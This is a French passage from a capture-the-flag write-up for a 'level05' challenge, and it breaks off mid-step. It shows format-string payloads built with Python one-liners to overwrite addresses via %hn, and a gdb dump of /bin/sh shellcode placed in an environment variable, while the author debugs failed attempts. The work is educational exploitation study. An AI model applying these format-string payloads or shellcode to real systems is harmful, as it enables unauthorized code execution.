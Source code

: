 ```bash
$ (python -c 'print("\x08\x04\x97\xe0"[::-1] + "\x08\x04\x97\xe2"[::-1] + "%55507x%10$hn" + "%10028x%11$hn")'; cat) | ./level05
whoami
Segmentation fault (core dumped)
$
```

Sans succès également, et après relecture de la source sur la séparation, je réalise qu'il me faut soustraire 8 bytes pour les 2 adresses d'exit écrite auparavant, je soustrais donc 8 à 55507 et obtiens 55499.

Je retente :

```bash
$ (python -c 'print("\x08\x04\x97\xe0"[::-1] + "\x08\x04\x97\xe2"[::-1] + "%55499x%10$hn" + "%10028x%11$hn")'; cat) | ./level05
whoami
Segmentation fault (core dumped)
$
```

Cela ne marche toujours pas, alors je ré-inspecte ma solution.

Je me rends compte que l'adresse que je passe :

```h
0xffffd8d3:      "SHELLCODE=1\300Ph//shh/bin\211\343PS\211\341\260\v̀"
```

Inclus la partie "SHELLCODE" :

```h
(gdb) x/100bx 0xffffd8d3
0xffffd8d3:     0x53    0x48    0x45    0x4c    0x4c    0x43    0x4f    0x44
0xffffd8db:     0x45    0x3d    0x31    0xc0    0x50    0x68    0x2f    0x2f
0xffffd8e3:     0x73    0x68    0x68    0x2f    0x62    0x69    0x6e    0x89
0xffffd8eb:     0xe3    0x50    0x53    0x89    0xe1    0xb0    0x0b    0xcd
0xffffd8f3:     0x80    0x00    0x54    0x45    0x52    0x4d    0x3d    0x78
0xffffd8fb:     0x74    0x65    0x72    0x6d    0x2d    0x32    0x35    0x36
0xffffd903:     0x63    0x6f    0x6c    0x6f    0x72    0x00    0x53    0x48
0xffffd90b:     0x45    0x4c    0x4c    0x3d    0x2f    0x62    0x69    0x6e
0xffffd913:     0x2f    0x62    0x61    0x73    0x68    0x00    0x53    0x53
0xffffd91b:     0x48    0x5f    0x43    0x4c    0x49    0x45    0x4e    0x54
0xffffd923:     0x3d    0x31    0x30    0x2e    0x30    0x2e    0x32    0x2e
0xffffd92b:     0x32    0x20    0x34    0x39    0x32    0x35    0x33    0x20
0xffffd933:     0x34    0x32    0x34    0x32
```

0x53 = 82 = S
0x48 = 72 = H
etc...

Pour obtenir une adresse qui pointe sur le début du shellcode... et bien il faut que le nom de ma variable environnement fasse 7 caractère, pour, qu'avec le =, l'adresse suivante commence à pointer sur le shellcode.

Je modifie la variable :
